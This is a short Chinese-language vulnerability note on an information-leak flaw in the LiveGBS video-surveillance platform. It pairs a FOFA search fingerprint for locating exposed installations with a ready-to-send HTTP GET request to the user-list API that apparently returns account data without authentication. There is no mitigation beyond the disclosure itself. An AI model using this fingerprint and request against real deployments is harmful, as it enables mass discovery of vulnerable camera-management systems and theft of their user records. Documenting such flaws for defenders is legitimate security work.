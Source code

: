 # LiveGBS list存在信息泄漏漏洞

# 一、漏洞简介
LiveGBS是一款基于GB28181协议的安防监控软件，专为集中统一管理和观看所有摄像头、硬盘录像机等设备而设计。它支持GB28181注册接入，可向上级联第三方国标平台，提供可视化的WEB页面管理，使用户能够轻松实现设备的远程监控和管理。LiveGBS具备多项强大功能，包括云台控制、设备录像检索与回放、语音对讲、用户管理等。同时，它支持多种协议流输出，实现浏览器无插件直播，让用户能够随时随地通过Web端查看监控画面。LiveGBS list存在信息泄漏漏洞

# 二、影响版本
+ LiveGBS 

# 三、资产测绘
+ fofa`icon_hash="-206100324"`
+ 特征

![1714840195509-17413bb5-8988-4807-907b-1335a5357ea9.png](./img/oU8IW4Y-oZEZ4Two/1714840195509-17413bb5-8988-4807-907b-1335a5357ea9-194956.png)

# 四、漏洞复现
```plain
GET /api/v1/user/list?q=&start=0&limit=100&enable=&sort=CreatedAt&order=desc HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
sec-ch-ua: "Google Chrome";v="117", "Chromium";v="117", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-platform: "Windows"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![1715350016028-f7a9c754-ea7f-4f92-8743-04021b14f407.png](./img/oU8IW4Y-oZEZ4Two/1715350016028-f7a9c754-ea7f-4f92-8743-04021b14f407-360953.png)





> 更新: 2024-05-18 12:33:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ongy3487szmdw9ti>